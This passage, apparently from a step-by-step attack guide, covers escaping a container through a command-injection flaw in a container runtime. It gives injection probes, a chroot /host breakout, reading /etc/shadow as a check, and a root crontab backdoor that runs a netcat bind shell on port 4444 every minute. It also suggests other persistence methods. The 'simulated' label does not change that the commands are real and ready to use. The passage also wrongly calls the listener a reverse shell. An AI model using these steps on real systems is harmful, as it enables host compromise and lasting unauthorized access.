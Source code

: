         If the file exists, it confirms the vulnerability. Even if `crictl` throws an error, the existence of `/tmp/pwned` is still a major indicator.  If the command fails and `/tmp/pwned` does *not* exist, the system is likely not vulnerable to this *specific* type of injection.
    *   **Alternative:** Try different shell metacharacters and commands to explore the extent of the command injection vulnerability (e.g., `$(whoami)`, `\`; id \``, etc.).

**Phase 2: Exploitation (Simulated)**

This phase demonstrates how to exploit the vulnerability, *assuming it exists* (based on successful validation).  This is a *simulated* exploit for demonstration purposes. Actual exploitation steps will vary significantly based on the specific vulnerability.

1.  **Escalate Privileges (Simulated):**

    ```bash
    chroot /host
    ```

    *   **Explanation:** *If* the container runtime vulnerability allowed you to escape the container and gain access to the underlying host's file system, you might attempt to use `chroot` to change the root directory to the host's root.  This command is only effective if you are already running with elevated privileges *outside* of the container's namespace, due to the vulnerability. `/host` typically represents the mounted host filesystem inside the container, but it depends on the configuration.
    *   **Expected Output:**  If successful, the shell prompt will change, reflecting the new root directory (e.g., `/`).  You can then navigate the host's file system. If the command fails (e.g., "chroot: failed to run command '/bin/bash': No such file or directory"), it indicates that you do not have sufficient privileges or the root directory is not mounted.
    *   **Why:**  This is a crucial step to gain full control over the host system.  If `chroot` is successful, you can modify system files, install software, and perform other administrative tasks.
    *   **Validation:** After running `chroot`, try accessing files on the host system (e.g., `/etc/shadow`).  If you can access these files, it confirms that you have successfully escaped the container.
    *   **Alternative:** Instead of `chroot`, you might need to use other techniques to gain access to the host file system, such as mounting the host's file system using `mount` (if you have the necessary capabilities).

2.  **Create a Backdoor (Simulated):**

    ```bash
    echo "*/1 * * * * root nc -l -p 4444 -e /bin/bash" >> /etc/crontab
    ```

    *   **Explanation:**  *Assuming* you've successfully gained root access to the host system (e.g., via `chroot`), this command adds a cron job that will execute `nc -l -p 4444 -e /bin/bash` every minute. This creates a reverse shell listener on port 4444. *Note: this is a simple example and might require modification depending on the host system's configuration.*
    *   **Expected Output:**  No direct output is expected.  The cron job should be added to `/etc/crontab`. You can verify this by examining the `/etc/crontab` file.
    *   **Why:**  This establishes persistence, allowing you to regain access to the host system even after the initial exploit is mitigated.
    *   **Validation:** Verify that the cron job has been added to `/etc/crontab`.  Then, from a remote machine, connect to port 4444 on the compromised host using `nc <host-ip> 4444`.  You should get a shell prompt.
    *   **Alternative:**  Instead of a cron job, you could create a systemd service or modify other system configuration files to achieve persistence.
